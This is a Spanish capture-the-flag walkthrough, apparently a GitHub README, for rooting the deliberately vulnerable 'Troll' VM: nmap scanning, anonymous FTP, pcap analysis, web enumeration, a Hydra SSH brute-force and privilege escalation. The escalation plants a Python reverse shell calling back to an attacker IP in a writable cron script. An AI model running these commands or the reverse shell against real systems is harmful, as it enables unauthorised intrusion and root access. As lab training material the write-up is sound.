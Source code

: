 # Troll1

![imagen](https://github.com/90l3m0np13/Troll1/blob/main/Portada_LoL.jpeg)
#  Aprendiendo Pentesting: Resolución Práctica de la Máquina Troll

```markdown
# Resolución de la Máquina Troll

Este documento describe el proceso paso a paso para resolver la máquina virtual "Troll". A continuación, se detallan las acciones realizadas para identificar vulnerabilidades, explotarlas y obtener acceso como usuario root.

---

## 1. Escaneo Inicial

Realizamos un escaneo de la red para identificar la IP de la máquina, los puertos abiertos y los servicios en ejecución.

```bash
nmap -sV -p- <IP_de_la_máquina>
```

### Puertos y Servicios Abiertos:
- **21/tcp**: FTP (vsftpd 3.0.2)
- **22/tcp**: SSH (OpenSSH 6.6.1p1)
- **80/tcp**: HTTP (Apache httpd 2.4.7)

---

## 2. Identificación de Vulnerabilidades

Exploramos posibles vulnerabilidades en los servicios identificados, consultando bases de datos como [CVE](https://cve.mitre.org/).

---

## 3. Acceso al Servicio FTP

Accedemos al servicio FTP utilizando el usuario `anonymous` sin contraseña.

```bash
ftp <IP_de_la_máquina>
```

### Archivo Encontrado:
- **lol.pcap**: Un archivo de captura de red que analizamos con Wireshark.

---

## 4. Análisis del Archivo `lol.pcap`

Descargamos el archivo `lol.pcap` a nuestra máquina local y lo abrimos con Wireshark.

```bash
get lol.pcap
```

### Pista Encontrada:
- En una transferencia de FTP-DATA, encontramos un nombre de usuario: `sup3rs3cr3tdirlol`.

---

## 5. Exploración del Servicio Web

Accedemos a la ruta web asociada al usuario encontrado:

  ![imagen](https://github.com/90l3m0np13/Troll1/blob/main/LoL.png) 
```
http://<IP_de_la_máquina>/sup3rs3cr3tdirlol
```

### Archivo Descubierto:
- **roflmao**: Un archivo oculto que contiene la pista `Find address 0x0856BF`.

---

## 6. Enumeración de Usuarios y Contraseñas

En la misma ruta web, encontramos dos carpetas:

1. **good_luck**: Contiene un listado de usuarios registrados en la máquina.
2. **this_folder_contains_the_password**: Contiene un archivo `Pass.txt` con una posible contraseña.

### Uso de Hydra:
Utilizamos Hydra para probar la contraseña encontrada con los usuarios listados.

```bash
hydra -L users.txt -p "contraseña_encontrada" <IP_de_la_máquina> ssh
```

---

## 7. Acceso SSH

Una vez identificado el usuario válido, accedemos a la máquina mediante SSH.

```bash
ssh "usuario"@<IP_de_la_máquina>
```

---

## 8. Escalada de Privilegios

### Método 1: Explotación de un Script Python

1. Identificamos un script en Python (`cleaner.py`) que se ejecuta periódicamente y es modificable.
2. Insertamos una reverse shell en el script.

```python
# Reverse Shell en Python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP_atacante>",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

3. Ponemos en escucha Netcat en nuestra máquina.

```bash
nc -lvp 4242
```

4. Cuando el script se ejecute, obtendremos una shell como root.

### Método 2: Uso de un Exploit de Escalada de Privilegios

1. Buscamos un exploit para la versión de Ubuntu de la máquina.
2. Compilamos y ejecutamos el exploit.

```bash
gcc exploit.c -o exploit
./exploit
```

---

## 9. Obtención de la Flag

Una vez como root, buscamos el archivo `proof.txt` que contiene la flag.

```bash
ls /root
cat /root/proof.txt
```

---

## Referencias

- [Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)
- [Exploit Database](https://www.exploit-db.com)
```


